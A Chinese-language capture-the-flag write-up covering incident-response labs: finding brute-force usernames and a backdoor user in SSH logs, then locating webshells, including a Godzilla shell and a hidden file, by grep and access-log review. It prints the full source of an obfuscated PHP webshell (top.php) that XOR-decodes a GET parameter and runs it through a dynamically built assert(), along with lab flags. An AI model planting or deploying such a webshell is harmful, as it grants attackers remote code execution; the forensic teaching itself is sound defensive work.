flag{192.168.200.2}
```

##### 问题3:爆破用户名字典是什么？

斯，首先我们得思考一下

###### 什么是爆破用户名字典

简单来说指黑客在进行暴力破解攻击时使用的一系列用户名字典文件。黑客通过自动化工具逐个尝试这些用户名，结合常见或默认密码，试图找到有效的登录凭据。这个过程被称为“字典攻击”或“暴力破解攻击”。

字典内容

用户名字典可能包括：

- 常见的用户名（如 admin、root、user、guest 等）
- 与目标组织相关的用户名（如员工姓名、部门名等）
- 组合用户名（如名字和姓氏的组合）

那我们的具体实现步骤是什么

- 识别关键日志条目：


确定日志中包含攻击相关信息的条目。例如，SSH 失败登录尝试通常包含“Failed password”关键字，成功登录则包含“Accepted”。

- 提取有用信息：

使用文本处理工具如 grep、awk、perl 或 sed 提取出关键数据。例如，可以从日志中提取出失败尝试的用户名、IP地址、时间戳等。

- 统计分析：

对提取出的信息进行统计分析，以确定被尝试最多的用户名和来源IP等。例如，使用 uniq 和 sort 对数据进行去重和排序。

那我们先看看刚刚登录失败的内容

```
root@ip-10-0-10-3:/var/log# cat auth.log.1  | grep -a "Failed password"
Aug  1 07:40:50 linux-rz sshd[7461]: Failed password for invalid user test1 from 192.168.200.35 port 33874 ssh2
Aug  1 07:41:04 linux-rz sshd[7465]: Failed password for invalid user test2 from 192.168.200.35 port 51640 ssh2
Aug  1 07:41:13 linux-rz sshd[7468]: Failed password for invalid user test3 from 192.168.200.35 port 48168 ssh2
Aug  1 07:42:32 linux-rz sshd[7471]: Failed password for root from 192.168.200.32 port 51888 ssh2
Aug  1 07:46:41 linux-rz sshd[7475]: Failed password for invalid user user from 192.168.200.2 port 36149 ssh2
Aug  1 07:46:47 linux-rz sshd[7478]: Failed password for invalid user user from 192.168.200.2 port 44425 ssh2
Aug  1 07:46:50 linux-rz sshd[7480]: Failed password for invalid user user from 192.168.200.2 port 38791 ssh2
Aug  1 07:46:54 linux-rz sshd[7482]: Failed password for invalid user user from 192.168.200.2 port 37489 ssh2
Aug  1 07:46:56 linux-rz sshd[7484]: Failed password for invalid user user from 192.168.200.2 port 35575 ssh2
Aug  1 07:46:59 linux-rz sshd[7486]: Failed password for invalid user hello from 192.168.200.2 port 35833 ssh2
Aug  1 07:47:02 linux-rz sshd[7489]: Failed password for invalid user hello from 192.168.200.2 port 37653 ssh2
Aug  1 07:47:04 linux-rz sshd[7491]: Failed password for invalid user hello from 192.168.200.2 port 37917 ssh2
Aug  1 07:47:08 linux-rz sshd[7493]: Failed password for invalid user hello from 192.168.200.2 port 41957 ssh2
Aug  1 07:47:10 linux-rz sshd[7495]: Failed password for invalid user hello from 192.168.200.2 port 39685 ssh2
Aug  1 07:47:13 linux-rz sshd[7497]: Failed password for root from 192.168.200.2 port 34703 ssh2
Aug  1 07:47:18 linux-rz sshd[7499]: Failed password for root from 192.168.200.2 port 46671 ssh2
Aug  1 07:47:20 linux-rz sshd[7501]: Failed password for root from 192.168.200.2 port 39967 ssh2
Aug  1 07:47:22 linux-rz sshd[7503]: Failed password for root from 192.168.200.2 port 46647 ssh2
Aug  1 07:47:26 linux-rz sshd[7525]: Failed password for invalid user  from 192.168.200.2 port 37013 ssh2
Aug  1 07:47:30 linux-rz sshd[7528]: Failed password for invalid user  from 192.168.200.2 port 37545 ssh2
Aug  1 07:47:32 linux-rz sshd[7530]: Failed password for invalid user  from 192.168.200.2 port 39111 ssh2
Aug  1 07:47:35 linux-rz sshd[7532]: Failed password for invalid user  from 192.168.200.2 port 35173 ssh2
Aug  1 07:47:39 linux-rz sshd[7534]: Failed password for invalid user  from 192.168.200.2 port 45807 ssh2
Aug  1 07:52:59 linux-rz sshd[7606]: Failed password for root from 192.168.200.31 port 40364 ssh2
```

随便取一条日志看一下

```
Aug  1 07:40:50 linux-rz sshd[7461]: Failed password for invalid user test1 from 192.168.200.35 port 33874 ssh2
```

- `Failed password`：密码错误的提示
- `for invalid user test1`：尝试登录的用户名是 `test1`，但系统判定为 **无效用户**
- `from 192.168.200.35 port 33874`：源ip和端口

所以我们可以直接筛选出来不同攻击ip的字典

```
192.168.200.2:
root，user，hello，空字符
192.168.200.31:
root
192.168.200.32:
root
192.168.200.35:
test1，test2，test3
```

或者可以用命令去精准筛选

```
cat auth.log.1 | grep -a "Failed password" | perl -e 'while($_=<>){ /for(.*?) from/; print "$1\n";}'|uniq -c|sort -nr
```



```
显示信息格式:<尝试次数> <错误类型> <用户名>
```

这里使用Perl脚本提取出失败尝试的用户名和来源IP地址，统计每个用户名的失败尝试次数，并按照次数降序排列显示结果。

具体分析一下:

- `perl -e 'while($_=<>){ /for(.*?) from/; print "$1\n";}'`:作用：使用Perl脚本从每一行提取出失败登录尝试的用户名。

`while($_=<>)`：逐行读取输入。

`/for(.*?) from/`：使用正则表达式匹配模式`“for [username] from”`，其中[username]是登录尝试的用户名。

`print "$1\n"`：将提取的用户名打印出来。

```
flag{user,hello,root,test3,test2,test1}
```

##### 问题4:成功登录 root 用户的 ip 一共爆破了多少次

之前就知道成功登录的用户ip是192.168.200.2，然后再看这个ip爆破root爆破了几次

```
cat auth.log.1 | grep -a "Failed password for root "
```


```
flag{4}
```

##### 问题5:黑客登陆主机后新建了一个后门用户，用户名是多少

这个又是一个新的知识点了

在做这个操作时，我们应该逐步分析一下我们需要怎么做

- 步骤1：确定日志文件


- 步骤2：搜索创建用户的关键字


- 步骤3：提取新用户信息


例如，假设你得到了如下输出：

```
Jan 12 10:32:15 server useradd[1234]: new user: name=testuser, UID=1001, GID=1001, home=/home/testuser, shell=/bin/bash
这条日志显示了创建的新用户 testuser。
增加一个kali用户日志
Jul 10 00:12:15 localhost useradd[2382]: new group: name=kali, GID=1001
Jul 10 00:12:15 localhost useradd[2382]: new user: name=kali, UID=1001, GID=1001, home=/home/kali, shell=/bin/bash
Jul 10 00:12:58 localhost passwd: pam_unix(passwd:chauthtok): password changed for kali
```

- 步骤4：分析执行上下文


确认新用户的创建是否由合法用户执行，或是否有可疑的远程登录记录。

- 步骤5：进一步确认


结合其他日志文件，如 /var/log/syslog，查看是否有异常的命令执行或系统变更。

所以我们的命令应该是

```
cat auth.log.1 | grep -a "new"
```



然后可以看到有两个新用户，但是只有第一个是在主机上创建的新用户，第二个可能是在云服务器上进行创建的新用户，实在不行我们可以先看看登录成功的时间，因为登录时间左右黑客首先就会选择创建后门用户


```
flag{test2}
```

至此关于Linux的日志分析就告一段落，建议学习的时候多进行手撸命令而不是ctrl+c和ctrl+v复制粘贴，同时感谢大佬的wp让我学到了很多知识，wp真的很细！！！

### 第一章 应急响应-webshell查杀

#### 什么是webshell

**Webshell** 是一种通过 Web 服务器接口提供命令执行能力的恶意脚本。它通常被攻击者上传到受入侵的 Web 服务器上，以便远程执行命令和控制服务器。

特点：

- **脚本语言**：通常用 PHP、ASP、JSP、Python 等编写，依赖于目标服务器的环境。
- **功能**：文件管理、命令执行、数据库操作、网络连接、权限提升等。
- **隐蔽性**：通常伪装成正常文件或与网站现有文件混在一起，可能被混淆以逃避检测。
- **通信**：使用 HTTP/HTTPS 协议进行通信，易于隐藏在普通网络流量中。

#### 什么是webshell应急响应

简单官方一点：WebShell应急响应是指在检测到WebShell（恶意Web脚本）攻击后，采取一系列措施来控制、消除威胁，并恢复受影响的系统和服务。WebShell是一种常见的攻击手段，攻击者通过上传或注入恶意脚本到Web服务器上，从而获得对服务器的远程控制权限，而我们需要做的就是找到问题所在根源并且解决掉它。

#### 常规后门查杀

1.1、静态检测

我们可以查找一些特殊后缀结尾的文件。例如：.asp、.php、.jsp、.aspx。

然后再从这类文件中查找后门的特征码，特征值，危险函数来查找webshell，例如查找内容含有exec()、eval()、system()的文件。

优点：快速方便，对已知的webshell查找准确率高，部署方便，一个脚本就能搞定。

缺点：漏报率、误报率高，无法查找0day型webshell，而且容易被绕过。

1.2、动态检测

webshell执行时刻表现出来的特征，我们称为动态特征。只要我们把webshell特有的HTTP请求/响应做成特征库，加到IDS里面去检测所有的HTTP请求就好了。webshell如果执行系统命令的话，会有进程。Linux下就是起了bash，Win下就是启动cmd，这些都是动态特征。

1.3、日志检测

使用Webshell一般不会在系统日志中留下记录，但是会在网站的web日志中留下Webshell页面的访问数据和数据提交记录。日志分析检测技术通过大量的日志文件建立请求模型从而检测出异常文件，例如：一个平时是GET的请求突然有了POST请求并且返回代码为200。

2、工具排查webshell
相对于手工排查，工具排查可能更好上手，但是如果想走的更远一些，某些线下的比赛可能会断网，也就说，手工排查的一些基本操作还是要明白的。（但是工具排查真的很香）

#### webshell代码特征

- 可疑函数调用


WebShell通常会使用一些危险的函数来执行系统命令或代码，如：

PHP: eval(), system(), exec(), shell_exec(), passthru(), assert(), base64_decode()

ASP: Execute(), Eval(), CreateObject()

JSP: Runtime.getRuntime().exec()

- 编码和解码

WebShell经常使用编码和解码技术来隐藏其真实意图，如Base64编码：
    

```php
 eval(base64_decode('encoded_string'));
```

- 文件操作

WebShell可能会包含文件操作函数，用于读取、写入或修改文件：

PHP: fopen(), fwrite(), file_get_contents(), file_put_contents()

ASP: FileSystemObject

- 网络操作

WebShell可能会包含网络操作函数，用于与远程服务器通信：
PHP: fsockopen(), curl_exec(), file_get_contents('http://...')
ASP: WinHttp.WinHttpRequest

#### 解题

##### 问题1:黑客webshell里面的flag

这道题应该是让我们先找出webshell

我们直接使用find命令查找特殊后缀的文件，然后管道符拼接xargs去匹配特征函数，xargs函数就是把命令1的结果当作输入给到命令2。

上面刚刚也说了我们可以尝试定位一些特殊的后缀文件，例如：.asp、.php、.jsp、.aspx。

我们先进入网站的运行目录

```
cd /var/www/html
```

但是在html目录下看到了可疑的shell.php


不过这是意外惊喜，我们还是得用命令去检索一下

```php
//搜索目录下适配当前应用的网页文件，查看内容是否有Webshell特征
find ./ -name "*.jsp" | xargs grep "exec(" 
find ./ -name "*.php" | xargs grep "eval(" 
find ./ -name "*.asp" | xargs grep "execute(" 
find ./ -name "*.aspx" | xargs grep "eval(" 
    
//对于免杀Webshell，可以查看是否使用编码
find ./ type f -name "*.php" | xargs grep "base64_decode" 
```

代码解释:

`xargs`：xargs命令用于将输入数据重新格式化后作为参数传递给其他命令。在这个命令中，xargs将find命令找到的文件列表作为参数传递给grep命令。

`grep "eval("`：grep命令用于搜索文本，并输出匹配的行。这里"`eval(`"是grep命令的搜索模式，用于查找包含`eval(`字符串的行

所以运行出来的结果是


然后依次cat一下这三个文件


发现这里有被注释掉的，应该是flag，不放心的话我们可以再把其他几个文件cat查看一下

##### 问题二:黑客使用的什么工具的shell

遇到这种类型，意思就是让我们分析一下是什么类型的webshell，其实我们已经可以猜测出是godzilla的webshell了

为什么这么说

哥斯拉病毒是一种Java后门木马，通常用于攻击并控制[Web服务器](https://so.csdn.net/so/search?q=Web服务器&spm=1001.2101.3001.7020)。特征就包括：

> 1. **@session_start();** - 开启一个会话。
> 2. **@set_time_limit(0);** - 设置脚本执行时间为无限。
> 3. **@error_reporting(0);** - 关闭所有错误报告。

这些代码行主要用于隐藏病毒活动并确保其能够长时间运行而不被发现。哥斯拉病毒通常会通过Webshell或其他漏洞注入到服务器中，然后使用这些命令来掩盖其存在并执行进一步的恶意操作。

并且**哥斯拉的shell通常都会采用base64加密和异或算法的方法去加密数据**

所以我们只需要找到它的github地址并且进行MD5加密即可；

> Godzilla地址：https://github.com/BeichenDream/Godzilla

文件内容中看到开头的三句就是哥斯拉的典型特征

最终加密出来的flag

```
flag{39392de3218c333f794befef07ac9257}
```

##### 问题3:黑客隐藏shell的完整路径

既然说是黑客隐藏的shell了，那我们就需要用到ls -a进行查找

###### ls和ls -a和ls -l的区别

`ls`

- **功能**: 列出当前目录或指定目录中的文件和文件夹。
- **输出**: 默认情况下，`ls` 不会显示以点（`.`）开头的隐藏文件。这些文件通常是系统配置文件或隐藏的文件。

`ls -a`

- **功能**: 列出当前目录或指定目录中的所有文件和文件夹，包括隐藏文件。
- **输出**: `ls -a` 会显示所有文件，包括以点（`.`）开头的文件（隐藏文件）。此外，它还会显示两个特殊的目录：`.`（当前目录）和 `..`（上级目录）。

**ls  -l**

- `ls -l` 是 Linux 和 Unix 系统中用于列出目录内容的命令之一，它以详细的格式显示文件和目录的信息。与普通的 `ls` 命令相比，`ls -l` 提供了更多的文件属性信息

ls -l` 输出的内容包括以下信息：

1. **文件类型和权限**：第一个字符表示文件类型（如 `-` 表示普通文件，`d` 表示目录，`l` 表示符号链接等），接下来的九个字符表示文件的权限（如 `rwxr-xr-x`）。
2. **硬链接数**：显示文件的硬链接数量。
3. **所有者**：显示文件的所有者用户名。
4. **用户组**：显示文件所属的用户组。
5. **文件大小**：以字节为单位显示文件的大小。
6. **最后修改时间**：显示文件的最后修改日期和时间。
7. **文件名**：最后显示文件或目录的名称。

那我们就进入着三个文件的路径中逐个排查一下，然后在/var/www/html/include/Db目录下看到有隐藏的木马


这里可以发现执行ls和ls -a是不一样的，出现了.Mysqli.php文件

cat查看一下



一个一样的哥斯拉的shell木马，猜测应该是隐藏的webshell了，我们拿路径去md5加密就可以了



```
flag{aebac0e58cd6c5fad1695ee4d1ac1919}
```

##### 问题4:黑客免杀马完整路径

###### 什么是免杀马

免杀马（免杀病毒或免杀Webshell）是指**经过特殊处理和混淆**，使其能够避开杀毒软件和安全检测工具识别的恶意软件或后门程序。黑客使用各种技术手段，使恶意代码看起来像是正常代码，从而躲避签名检测和基于规则的安全机制。这种技术通常用于Webshell和其他后门程序，目的是保持对受害系统的隐蔽访问。

###### 常见的免杀技术

- 代码混淆：


使用混淆工具或手动混淆代码，使其难以被直接阅读和分析。

- 编码和加密：

使用Base64、ROT13等编码方式或更复杂的加密技术隐藏恶意代码片段。

- 动态生成和执行：

通过动态生成代码并在运行时执行，绕过静态分析。例如，使用 eval()、create_function() 等PHP函数。

- 多层解码：

多层编码或加密，增加分析和检测的难度。

- 使用合法函数：

恶意代码嵌入到看似合法的代码中，利用正常的函数调用执行恶意操作。

###### 查找和处理免杀马的方法；

- 文件完整性检查：


比较当前文件与已知的良性备份文件，发现被修改或新增的文件。

- 代码审查：

手动检查可疑文件，寻找混淆、编码、加密和动态执行的代码模式。

- 安全扫描工具：

使用高级安全扫描工具，这些工具使用行为分析和机器学习来检测潜在的免杀马。

- 日志分析：

查看服务器访问日志和错误日志，寻找异常访问和执行模式。

检查文件修改时间，与正常更新周期不符的文件可能是可疑的。

- 基于特征的检测：

使用YARA规则等特征检测工具，根据已知的免杀马特征进行扫描。

既然它经过了免杀处理，那么木马的特征值以及特征函数应该都是被去掉了。这时我们再通过静态检测是基本检测不到的，从上面我们就可以看出我们只找到了三个马。而且上面我们说了webshell执行会在网站日志留下记录，那我们就到网站日志里面看看有啥可疑的记录。

###### windows上的网站日志路径

- IIS（Internet Information Services）


IIS是Windows上的默认Web服务器，其日志文件默认存储在以下路径：

- IIS 6.0 及更早版本：


C:\WINDOWS\system32\LogFiles\W3SVC[SiteID]\

- IIS 7.0 及更高版本：


C:\inetpub\logs\LogFiles\W3SVC[SiteID]\

其中，[SiteID] 是网站的标识符，通常是一个数字。

- Apache HTTP Server


如果在Windows上安装了Apache，日志文件默认存储在安装目录下的logs文件夹中：

C:\Program Files (x86)\Apache Group\Apache2\logs\

或者

C:\Program Files\Apache Group\Apache2\logs\

具体路径取决于安装时选择的位置。

- Linux系统中的网站日志路径


- Apache HTTP Server


在Linux上，Apache日志文件通常位于以下目录：

访问日志：

/var/log/apache2/access.log

或者

/var/log/httpd/access_log

错误日志：

/var/log/apache2/error.log

或

/var/log/httpd/error_log

不同的Linux发行版可能有不同的目录。例如，在Debian/Ubuntu上通常使用/var/log/apache2/，而在Red Hat/CentOS上通常使用/var/log/httpd/。

- Nginx


Nginx是另一个流行的Web服务器，默认的日志文件路径如下：

访问日志：

/var/log/nginx/access.log

错误日志：

/var/log/nginx/error.log

###### 如何查看和分析日志文件？

Windows：

使用文本编辑器（如Notepad、Notepad++）直接打开日志文件查看。
可以使用IIS管理器查看IIS日志。
Linux：

使用命令行工具查看日志，例如：

tail -f /var/log/apache2/access.log 

tail -f /var/log/nginx/access.log

可以使用日志分析工具（如GoAccess、AWStats）生成可视化的日志报告。

接下来我们就进入日志文件的排查(因为我是另一种方法，所以这里直接搬大佬的过程)



我们到apache2目录下面查看一下access.log日志，查看分析一下



这里是上传了一个shell.php并且访问成功，说明这里上传成功了



我们可以看到有个名为top.php的文件和index.php文件执行了phpinfo()；且返回值为200，有点可疑。去翻一下呢

```php
//top.php
<?php

$key = "password";

//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($fun);

//inde.php
<?php
include "../config.php";
//载入公共变量
include SYS_ROOT.INC."common.php";
//数据处理

$dbit=new Dbclass(SYS_ROOT.DB_NAME);
$id=Base::safeword($_GET['id'],1);
$page=Base::safeword($_GET['p'],1);
$eachpage=EACHPAGE;
$cat=Base::safeword($_GET['cat'],1);
$name=Base::safeword( Base::safeword($_POST['name'],3),5);
$comment=Base::safeword( Base::safeword($_POST['comment'] , 3 ) , 5);
$article_id=Base::safeword($_POST['article_id'],1);
//配置说明
$webname=WEBNAME;
$webinfo=WEBINFO;
$weburl=WEBURL;
//公告
$announce=ANNOUNCE;
//直接用数组缓存
include(SYS_ROOT.CACHE."cat_array.inc");
//文章页参数缓存
include(SYS_ROOT.CACHE."art_array.inc");
$mobile=Base::safeword($_POST['mobile'],4);
if($mobile){
        if($name==''||$comment=='')die('Please input your name and comment correctly!<a href="?id='.$article_id.'">Back</a>');
        $tmp['article_id']=$article_id;
        $tmp['name']=Base::safeword($name,4);
        $tmp['emails']='ok@ok.com';
        $tmp['content']=Base::safeword($comment,5);
        $tmp['ips']=Base::realip();
        $tmp['times']=Base::getnowtime();
        $data['status']=1;
        $addstatus=$dbit->add_one(TB."comment",$tmp);
        $dbit->updatelist(TB."cms","cmtcount=cmtcount+1",$tmp['article_id']);
        die('^_^Submit Succefully!<a href="?id='.$article_id.'">GO ON!</a>');

}
if($id){

        //上一篇
        $upart=$dbit->get_one(TB."cms","status=1 and id<".($id),"id,name",1);
        //下一篇
        $downart=$dbit->get_one(TB."cms","status=1 and id>".($id),"id,name",1,'id ASC');
        //评论
        $commenttotal=$dbit->get_one(TB."comment","status=1 and article_id=".($id),"count(*)");
        $cmtotal=$commenttotal['count(*)'];
        $comments=$dbit->getlist(TB."comment","status=1 and article_id=".($id),"*");
        $atl=$dbit->get_one(TB."cms","status=1 and id=".$id,"*",1);
        $addtitle=$atl['name']?$atl['name']."_":"";
        $tpl = new Template();
        include($tpl->myTpl('wap_display','','$tpl'));
}else{
        //评论
        $recnetcmts=$dbit->getlist(TB."comment",'status=1',"content,article_id,name",10);
        $total=$articleData['count'];
        $indexs='wap_index';
        if($cat){
                $totaldata=$dbit->getlist(TB."cms","status=1 and cat=".$cat,"count(*)");
                $total=$totaldata[0]['count(*)'];
                $addtail="&cat=".$cat;
                $indexs='wap_index';
        }
        $uppage=$page>0?$page-1:0;
        $downpage=($page+1)*$eachpage<$total?$page+1:$page;
        $o=$dbit->getlist(TB."cms","status=1 and ".($cat?"cat=".$cat:"1=1"),"*",$eachpage*$page.','.$eachpage,"orders DESC,id DESC");
        $catinfo=$dbit->getlist(TB."category","status=1 and id=".$cat);
        $addtitle=$catinfo[0]['name']?$catinfo[0]['name']."_":"";
        //模板生效
        $tpl = new Template();
        include($tpl->myTpl($indexs,'','$tpl'));
}
?>  
```

可以发现top.php文件是一个高度混淆的webshell代码，进行了base64编码和异或的解密，并通过动态拼接构造危险函数，例如下面的传参



我们顺着代码解密一下



可以看到这里构造了一个phpinfo()函数；最后结合

```
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($fun);
//传参func2=sert
构造出assert(phpinfo());
```

很明显就是在尝试执行phpinfo()函数了

通过对日志文件的排查，最终可以确定top.php文件是恶意文件

不过还有一种方法比较有运气成分，我猜测免杀马用的是base64编码加密，所以我直接手动搜索

```
find ./ -name "*.php" | xargs grep "base64_decode"
```

这里在`/var/www/html/wap/top.php`中找到了 Base64 加密方法 


###### 为什么可以确认是恶意文件？

- 混淆和隐藏：

使用Base64编码和字符异或操作来混淆代码。这些技术通常用于隐藏恶意代码，避免被直接检测到。

- 动态执行：

动态生成并调用函数。这种模式允许攻击者通过URL参数传递任意代码并在服务器上执行，具有极大的危险性。

- 外部输入：

使用$_GET参数来控制代码行为。通过外部输入来决定代码逻辑，使得攻击者可以远程控制服务器，执行任意PHP代码。

```
flag{eeff2eabfd9b7a6d26fc1a53d3f7d1de}
```

### 第一章 应急响应- Linux入侵排查

#### 什么是木马?

**木马（Trojan Horse）** 是一种伪装成合法软件的恶意程序，其目的是为攻击者提供对受感染机器的远程访问。

特点：

- **伪装性**：通常捆绑或伪装成合法应用程序。
- **后门功能**：允许攻击者对系统进行远程控制。
- **多功能性**：可以包括键盘记录、屏幕截图、文件传输、权限提升等功能。
- **持续性**：常常设法在系统重启后继续运行。

#### 检测：

#### 什么是linux入侵排查

**Linux入侵排查**是应急响应的一部分，专门针对Linux系统进行安全事件的调查和分析。

具体的排查方法我就不赘述了，上面两次也写过了

#### 两种方法的好处

1.手工排查的好处

- 灵活性高：


手工排查能够根据具体情况和需求进行灵活调整，针对特定的可疑活动进行详细分析。

- 深度理解：

手工排查需要深入理解系统和日志，这有助于安全人员提高对系统和安全事件的理解和认识。

- 精确性强：

手工排查可以通过逐行分析日志和系统信息，发现工具可能遗漏的细微线索和异常行为。

- 适应性强：

对于新型威胁和未知攻击，手工排查可以快速调整策略进行应对，而不需要依赖工具的更新和支持。
2.工具排查的好处

- 效率高：


工具可以快速处理大量数据和日志，节省时间，提高分析效率。

- 全面性：

工具能够自动化地扫描和分析系统的各个方面，提供全面的检测和报告。

- 重复性强：

工具可以进行重复性工作，减少人为错误和疏漏，提高一致性和准确性。

- 集成性好：

现代安全工具通常集成了多种功能，如日志分析、恶意软件检测、漏洞扫描等，提供一站式解决方案。

#### 解题

##### 问题1:web目录存在木马，请找到木马的密码提交

需要我们找到这个木马并把木马的密码提交

因为是web目录的，那还是在/var/www/html目录下

先进入/var/www/html目录查看木马，跟上面的基本查看webshell是一样的

```
find ./ -name "*.php" | xargs grep "eval("
```

